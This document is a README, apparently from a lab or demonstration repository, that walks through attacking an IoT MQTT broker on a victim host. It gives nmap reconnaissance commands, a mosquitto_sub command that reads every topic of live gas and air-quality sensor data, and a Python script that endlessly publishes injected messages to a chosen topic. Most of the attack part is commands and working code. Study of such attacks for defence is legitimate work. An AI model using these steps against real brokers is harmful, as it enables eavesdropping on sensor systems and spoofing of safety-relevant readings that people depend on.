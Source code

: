 # Steps to Similate the Attack on Victim

## Step - 1: 
In my /etc/hosts file, I've mapped my victim's IP to the alias 'tom' for security purposes. In upcoming simulations, I'll be using 'tom' to represent this IP.

<p align="center">
  <img src="https://github.com/Bhargav9490/MQTT_Attack/blob/main/Attack/Host.jpeg" alt="GitHub Logo" width="400">
</p>

## Step - 2: 
Do an **Nmap scan** on the target ip, Nmap scan (nmap -A tom) was an aggressive scan on tom, focusing only on common ports rather than all possible ones. Key findings:
  - Port 22 (SSH) is open, running OpenSSH 9.6p1 on Ubuntu.
  - SSH Host Keys: Shows both ECDSA and ED25519 keys.
  - OS Detection: The device is running a Linux OS with kernel version 4.x/5.x.
  - Network Distance: 1 hop.
**Note:** This scan did not detect port 1883 (MQTT) as it was outside the scanned port range.

<p align="center">
  <img src="https://github.com/Bhargav9490/MQTT_Attack/blob/main/Attack/nmap.jpeg" alt="GitHub Logo" width="400">
</p>

## Step - 3: 
Do another **Nmap Scan**(nmap -p- tom), the -p- option was used to scan all 65,535 TCP ports on tom (IP: 172.16.17.207). Results show:
  - Port 22: Open (SSH)
  - Port 1880: Open (vsat-control)
  - Port 1883: Open (MQTT)
This confirms that port 1883 (MQTT) is open, as it was not detected in the previous scan due to the limited port range.
<p align="center">
  <img src="https://github.com/Bhargav9490/MQTT_Attack/blob/main/Attack/nmap-p.jpeg" alt="GitHub Logo" width="400">
</p>

## Step - 4: Monitoring Sensor Data Using MQTT
To subscribe to all topics on the MQTT broker and display real-time sensor data, use the following command:
```bash
mosquitto_sub -h tom -p 1883 -t '#' -v
```
This command subscribes to all topics (#) and outputs real-time sensor data with topic names and values, such as gas levels (H2, LPG, CO) and air quality metrics (PM2.5, CO2, TEMP).
<p align="center">
  <img src="https://github.com/Bhargav9490/MQTT_Attack/blob/main/Attack/mosquitto.jpeg" alt="GitHub Logo" width="400">
</p>

## Step - 5: 
Now it time to write a script connects to an MQTT broker and continuously publishes a message to a specified topic with a delay between each publish. The script takes four command-line arguments: broker address, topic, message, and delay.
```bash
import paho.mqtt.client as mqtt
import time
import sys

# Check if the correct number of arguments is provided
if len(sys.argv) != 5:
    print("Usage: script.py <broker_address> <topic> <message> <delay>")
    sys.exit(1)

# Get command-line arguments
broker_address = sys.argv[1]
topic = sys.argv[2]
message = sys.argv[3]
delay = float(sys.argv[4])  # Convert delay to float

print(f"Arguments received - Broker: {broker_address}, Topic: {topic}, Message: {message}, Delay: {delay}")

# Create an MQTT client instance
client = mqtt.Client()

# Connect to the MQTT broker
client.connect(broker_address)

# Continuously send the message to the topic
try:
    while True:
        client.publish(topic, message)
        print(f"Data '{message}' sent to topic {topic}")
        time.sleep(delay)  # Use the delay provided in seconds
except KeyboardInterrupt:
    print("Process interrupted")
finally:
    client.disconnect()
```

